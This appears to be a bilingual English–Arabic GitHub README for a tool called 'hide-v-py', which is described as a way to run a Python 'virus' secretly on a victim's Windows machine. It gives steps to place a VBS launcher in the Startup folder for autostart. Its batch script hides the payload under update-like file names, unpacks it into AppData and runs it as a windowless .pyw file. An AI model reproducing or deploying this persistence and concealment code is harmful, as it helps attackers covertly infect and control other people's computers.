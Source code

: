 # hide-v-py
## run virus python secretly \ تشغيل فيروس بايثون سرا
- You can use the software in more than one way \ تستطيع أستخدام البرمجية بأكثر من طريقة
- Download python Windows embeddable package (64-bit) / Windows embeddable package (64-bit) حمل بايثون 
## the victim / الضحية
> Note: put file no-console.vbs in `C:\Users\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` because this autostart Folder.


> ملحوظة:ضع ملف no-console.vbs في `C:\Users\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` لأن هذا المجلد لتشغيل تلقائي

## Example / مثال
```batch
cd C:\Users\see\AppData\Roaming\Microsoft\Windows
:: Windows-embeddable-package-python  in upgrade
IF EXIST "upgrade" (
cd C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs
:: change file python to original name
ren "upgrade.apk" "upgrade.pyw"
:: go to python.exe
cd "C:\Users\see\AppData\Roaming\Microsoft\Windows\upgrade"
:: run file python by python.exe
python.exe "C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\upgrade.pyw"
) ELSE (
:: if Folder upgrade not unzip
ren "update" "update.zip"
:: unzip update.zip
powershell -Command "Expand-Archive update.zip -DestinationPath C:\Users\see\AppData\Roaming\Microsoft\Windows"
ren "update.zip" "update"
cd C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs
ren "upgrade.apk" "upgrade.pyw"
cd "C:\Users\see\AppData\Roaming\Microsoft\Windows\upgrade"
python.exe "C:\Users\see\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\upgrade.pyw"
)
exit 0
```
